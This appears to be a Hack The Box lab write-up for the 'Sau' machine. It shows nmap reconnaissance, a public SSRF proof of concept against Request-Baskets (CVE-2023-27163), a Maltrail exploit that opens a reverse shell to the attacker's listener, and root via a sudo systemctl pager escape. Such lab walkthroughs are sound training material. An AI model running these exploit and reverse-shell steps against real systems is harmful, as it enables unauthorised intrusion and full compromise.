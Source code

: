 # Sau
Easy machine to Hack the Box is a popular platform for testing and improving your penetration testing skills. One of the easy labs available on the platform is the Sau HTB Lab. The Sau lab focuses on Server-Side Request Forgery (SSRF) and public exploit on Maltrail instance. sudo misconfiguration for doing privilege escalation.

<!-- toc -->

### Reconnaissance
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.
```
$ sudo nmap -p- -Pn -sV 10.129.77.100

Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-26 04:05 BST
Stats: 0:01:36 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 93.97% done; ETC: 04:07 (0:00:06 remaining)
Stats: 0:01:58 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 04:08 (0:00:17 remaining)
Stats: 0:02:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 04:08 (0:00:33 remaining)
Nmap scan report for 10.129.77.100
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 191.28 seconds
```

Exploring the open port 55555 and searching online about this. We can get the exploit for Server-Side Request Forgery - Exploit POC https://github.com/entr0pie/CVE-2023-27163
```
$ wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh
```
### Exploit
Updating the code and executing the script to get the access.
```
└──╼ [★]$ bash ./CVE-2023-27163.sh http://10.129.77.100:55555/ http://127.0.0.1:8338/

Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "thznpi" proxy basket...
> Basket created!
> Accessing http://10.129.77.100:55555/thznpi now makes the server request to http://127.0.0.1:8338/.
> Authorization: ecB-ULqgRVwyqJMYjqFo_Rm5yRdjT_9OVgULXrh-8NeW
```
Based on this, we got that the 55555 is powered by Maltrail (v0.53) . Teaching online, we can find working exploit - https://www.exploit-db.com/exploits/51676 which give us shell.
```
└──╼ [★]$ python3 poc.py 10.10.14.128 9001 http://10.129.77.100:55555/thznpi
Running exploit on http://10.129.77.100:55555/thznpi/login

└──╼ [★]$ nc -lvnp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.77.100.
Ncat: Connection from 10.129.77.100:60074.
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma) 
```
Getting the flag:

```
$ cd /home/; ls;
$ cd puma; ls;
$ cat user.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation
Getting the basic information the OS.
```
$ uname -r
5.4.0-153-generic
```
Checking the sudo access and configuration:
```
$ sudo -l
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

ran the command
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>

sudo /usr/bin/systemctl status trail.service
```
Searching online about systemctl, we can get reference to gtfobins.github.io and reading on that https://gtfobins.github.io/gtfobins/systemctl/ we will see the following approach: 
This invokes the default pager, which is likely to be less, other functions may apply.
```
$sudo systemctl
!sh
```
Using this approach, we can also start the command and gain shell access to read the flag.
```
$ sudo /usr/bin/systemctl status trail.service
!sshh!sh
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```